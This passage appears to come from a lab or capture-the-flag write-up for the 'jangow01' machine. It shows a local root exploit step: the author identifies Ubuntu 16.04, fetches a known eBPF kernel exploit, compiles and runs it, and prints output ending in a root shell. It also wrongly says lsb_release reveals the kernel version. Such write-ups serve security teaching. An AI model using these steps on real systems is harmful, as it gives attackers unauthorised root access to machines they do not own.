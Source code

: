 ```bash
```

All right, this is a veeeeery easy to privilege escalate. As we can see, the `pkexec` binary is with permissions `SUID`, so if we run an `lsb_release -a` command, we can see that the kernel version is pretty old. 

```bash
jangow01@jangow01:/$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 16.04.1 LTS
Release:	16.04
Codename:	xenial
jangow01@jangow01:/$ 
```

I say that is a very easy because there is a bunch of exploits of this vulnerability [here](https://www.exploit-db.com/exploits/45010).
Let's save this code in a file with extension `.c` into the machine:

```bash
jangow01@jangow01:~$ nano exploit.c
jangow01@jangow01:~$ cat exploit.c
/*
  Credit @bleidl, this is a slight modification to his original POC
  https://github.com/brl/grlh/blob/master/get-rekt-linux-hardened.c
  
  For details on how the exploit works, please visit
  https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   
  Tested on Ubuntu 16.04 with the following Kernels
  4.4.0-31-generic
  4.4.0-62-generic
```
***truncated***

Now, we will compile the file so it will become an executable binary:

```bash
jangow01@jangow01:~$ gcc exploit.c -o exploit
jangow01@jangow01:~$ ./exploit
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff8800398c9d00
[*] Leaking sock struct from ffff88003c89f2c0
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff88003cd5e480
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff88003cd5e480
[*] credentials patched, launching shell...
# whoami
root
# 
```
